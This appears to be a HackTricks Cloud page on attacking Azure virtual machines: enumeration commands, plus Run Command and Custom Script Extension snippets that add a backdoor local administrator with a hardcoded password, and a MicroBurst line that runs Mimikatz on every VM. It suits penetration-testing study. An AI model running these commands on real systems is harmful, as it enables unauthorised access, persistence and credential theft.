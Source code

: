 # Az - Virtual Machines & Network

<details>

<summary><strong>Learn AWS hacking from zero to hero with</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Other ways to support HackTricks:

* If you want to see your **company advertised in HackTricks** or **download HackTricks in PDF** Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** me on **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Share your hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>

## Basic information

Azure virtual machines are one of several types of [on-demand, scalable computing resources](https://learn.microsoft.com/en-us/azure/architecture/guide/technology-choices/compute-decision-tree) that Azure offers. Typically, you choose a virtual machine when you need more control over the computing environment than the other choices offer. This article gives you information about what you should consider before you create a virtual machine, how you create it, and how you manage it.

## Azure Network Information

Azure networks contains **different entities and ways to configure it.** You can find a brief **descriptions,** **examples** and **enumeration** commands of the different Azure network entities in:

{% content-ref url="az-azure-network.md" %}
[az-azure-network.md](az-azure-network.md)
{% endcontent-ref %}

## Azure Bastion

**Azure Bastion** is a fully managed service that provides **secure and seamless RDP** (Remote Desktop Protocol) and **SSH** (Secure Shell) **access** to your **virtual machines directly in the Azure portal over SSL**. This service is a more secure and convenient **alternative to exposing your virtual machines to public Internet connections**. Azure Bastion is provisioned within your Azure Virtual Network, providing RDP and SSH connectivity to all VMs in the VNet using private IP addresses, which means you don't need to assign public IP addresses to your Azure VMs.

So if your company has several VMs hosted within an Azure VNet for development and testing. **Instead of setting up public IP addresses and managing NSG rule**s for each VM to enable RDP or SSH access, you **deploy Azure Bastion**. With Azure Bastion, your developers and IT personnel can **access these VMs from the Azure portal using their web browsers securely** without the need for public IP addresses.

To list all Azure Bastion Hosts in your subscription, you can use the following command:

{% code overflow="wrap" %}
```bash
az network bastion list --query "[].{name:name, resourceGroup:resourceGrou, location:location}" -o table
```
{% endcode %}

## VM Enumeration

```powershell
# Get readable VMs
Get-AzVM | fl
# Lis running VMs
Get-AzureRmVM -status | where {$_.PowerState -EQ "VM running"} | select ResourceGroupName,Name
Get-AzVM -Name <name> -ResourceGroupName <res_group_name> | fl *
Get-AzVM -Name <name> -ResourceGroupName <res_group_name> | select -ExpandProperty NetworkProfile

# Get iface and IP address
Get-AzNetworkInterface -Name <interface_name>
Get-AzPublicIpAddress -Name <iface_public_ip_id>

#Get installed extensions
Get-AzVMExtension -ResourceGroupName <res_group_name> -VMName <name>

Get-AzVM | select -ExpandProperty NetworkProfile # Get name of network connector of VM
Get-AzNetworkInterface -Name <name> # Get info of network connector (like IP)
```

## **Run commands in a VM**

### **AAD Login in VM**

It's possible to allow access to users authenticated via AzureAD. For example trying to access a **linux VM**: `ssh username@azure-corp.com@1.1.1.1` (it's important to **use the email** with the azurecorp used when trying to login) you could get an error like:

{% code overflow="wrap" %}
```
(username@azure-corp.com@1.1.1.1) This preview capability is not for production use. When you sign in, verify the name of the app on the sign-in screen is "Azure Linux VM Sign-in" and the IP address of the target VM is correct.

To sign in, use a web browser to open the page https://microsoft.com/devicelogin and enter the code DT4PNSTGR to authenticate. Press ENTER when ready.
```
{% endcode %}

Just **follow those instructions** going to [https://microsoft.com/devicelogin](https://microsoft.com/devicelogin) and indicating the code, use the email and password as credentials and you will be able to connect via SSH (if that user has enough permissions to do so: `Virtual Machine Administrator Login` or `Virtual Machine User Login` role).

### **Run Command**

```powershell
# The permission allowing this is Microsoft.Compute/virtualMachines/runCommand/action
Invoke-AzVMRunCommand -ScriptPath .\adduser.ps1 -CommandId 'RunPowerShellScript' -VMName 'juastavm' -ResourceGroupName 'Research' –Verbose
## Another way
Invoke-AzureRmVMRunCommand -ScriptPath .\adduser.ps1 -CommandId 'RunPowerShellScript' -VMName 'juastavm' -ResourceGroupName 'Research' –Verbose

# Content of the script
$passwd = ConvertTo-SecureString "Welcome2022!" -AsPlainText -Force
New-LocalUser -Name new_user -Password $passwd 
Add-LocalGroupMember -Group Administrators -Member new_user
```

```powershell
# Try to run in every machine
Import-module MicroBurst.psm1
Invoke-AzureRmVMBulkCMD -Script Mimikatz.ps1 -Verbose -output Output.txt
```

### **Run Custom Script Extension**

Azure virtual machine (VM) extensions are **small applications** that provide post-deployment configuration and automation **tasks** on **Azure VMs**. For example, if a virtual machine requires software installation, antivirus protection, or the ability to run a script inside it, you can use a VM extension.

Therefore, if you have access to write it, you can execute arbitrary code:

```powershell
# Microsoft.Compute/virtualMachines/extensions/write
Set-AzVMExtension -ResourceGroupName "Research" -ExtensionName "ExecCmd" -VMName "infradminsrv" -Location "Germany West Central" -Publisher Microsoft.Compute -ExtensionType CustomScriptExtension -TypeHandlerVersion 1.8 -SettingString '{"commandToExecute":"powershell net users new_user Welcome2022. /add /Y; net localgroup administrators new_user /add"}'
```

### DesiredConfigurationState

**DesiredConfigurationState (DSC)** is similar to Ansible, but is a tool within PowerShell that allows a host to be setup through code. DSC has its own extension in Azure which allows the upload of **configuration files**. DSC [configuration files](https://docs.microsoft.com/en-us/powershell/dsc/getting-started/wingettingstarted?view=dsc-1.1#define-a-configuration-and-generate-the-configuration-document) are quiet picky when it comes to syntax, however the DSC extension is very gullible and will **blindly execute any command** anything as long as it follows a certain format, as shown in figure 5.

<figure><img src="../../../../.gitbook/assets/image (85).png" alt=""><figcaption></figcaption></figure>

This can be done via the **Az PowerShell** function [**`Publish-AzvmdscConfiguration`**](https://docs.microsoft.com/en-us/powershell/module/az.compute/publish-azvmdscconfiguration?view=azps-7.5.0). The DSC extension requires a **.PS1** with a **function** and **packaged** in a **.zip** file. Since this actually isn’t correct DSC syntax, the extension status will read as “failure”, however the code will be executed. The issue with this is that there is no output of the command, as the status is overwritten with the failure message.

### VM Application Definitions

The [VM Applications](https://docs.microsoft.com/en-us/azure/virtual-machines/vm-applications) resource is a way to **deploy versioned applications repeatably** to an Azure VM. For example, if you create a **program** and **deploy** it to all Azure VMs as version 1.0, once you **update** the program **to 1.1**, you can use the same VM Application to **create another definition** and push the update out to any VM.\
Being able to **push out an application** to a VM means it’s another avenue for **code execution**. This method’s drawback is that setting up the Application Definition [**requires a few steps**](https://docs.microsoft.com/en-us/azure/virtual-machines/vm-applications-how-to?tabs=portal), but can be accomplished using the **`New-AzGalleryApplication`** and **`New-AzGalleryApplicationVersion`** cmdlets in Az PowerShell.

This technique works by utilizing an **extension “VMAppExtension”** which is automatically installed when applying an application to a VM. The extension downloads the file from the URI to disk as the name of the Application _exactly_, meaning if application name is ‘AzApplication’, the file on disk is also called ‘AzApplication’ with no extension. This requires the “ManageActions” field in the [REST API call](https://docs.microsoft.com/en-us/rest/api/compute/gallery-application-versions/create-or-update) to be configured to rename the application with the appropriate extension. If you don’t want to run an entire application, arbitrary PowerShell commands can be run by also abusing the ManageActions field in the same REST API method or also through the Azure Portal. Once set up, the definition will be similar to figure 8.

<figure><img src="../../../../.gitbook/assets/image (11) (3).png" alt=""><figcaption></figcaption></figure>

This execution technique is unfortunately slow (about 3-4 minutes to execute an app or command), however with it being relatively new I would be surprised if there’s any specific detections written.

Since it’s an extension that ultimately does the execution, a copy of the application is located at `C:\Packages\Plugins\Microsoft.CPlat.Core.VMApplicationManagerWindows\1.0.4\Downloads\` and the status of the execution is kept in `C:\Packages\Plugins\Microsoft.CPlat.Core.VMApplicationManagerWindows\1.0.4\Status\`.

### Hybrid Worker Groups

[**Hybrid Worker Groups**](https://docs.microsoft.com/en-us/azure/automation/automation-hybrid-runbook-worker) (HWGs) allow a configured **Runbook** in an Automation Account to be **ran** on an **Azure Virtual machine** that is part of the **configured HWG**. Once again, an **extension is used** on the VM to deploy the Runbook code onto the VM. Since an extension is used, credentials are irrelevant and the code is executed as **SYSTEM** or root.

<figure><img src="../../../../.gitbook/assets/image (2) (5).png" alt=""><figcaption></figcaption></figure>

If using a Windows 10 VM, it’s important to have the Runbook run as PowerShell Version 5.1 instead of 7.1, as 7.1 isn’t installed on the VMs by default and the script will fail to run.

## References

* [https://learn.microsoft.com/en-us/azure/virtual-machines/overview](https://learn.microsoft.com/en-us/azure/virtual-machines/overview)
* [https://hausec.com/2022/05/04/azure-virtual-machine-execution-techniques/](https://hausec.com/2022/05/04/azure-virtual-machine-execution-techniques/)

<details>

<summary><strong>Learn AWS hacking from zero to hero with</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Other ways to support HackTricks:

* If you want to see your **company advertised in HackTricks** or **download HackTricks in PDF** Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** me on **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Share your hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
